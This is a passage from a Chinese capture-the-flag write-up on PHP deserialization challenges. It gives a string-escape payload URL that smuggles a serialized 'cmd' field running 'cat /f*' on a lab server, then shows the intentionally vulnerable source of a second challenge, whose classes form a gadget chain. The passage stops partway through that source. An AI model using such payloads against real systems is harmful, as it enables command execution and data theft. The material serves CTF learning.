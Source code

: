 这个waf里的str\_replace配合反序列化，不难看出这是一道反序列化字符串逃逸的题目

具体原理在之前的文章已经解释过，这里一个bad能逃逸出一个字符

payload👇

```
http://a0022e29-c3ad-4cfc-b434-f86b58a98a48.node4.buuoj.cn:81/?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:7:"cat /f*";}
```

![](./images/1698060899-image.png)

### More Fast

题目源码👇

```
<?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
```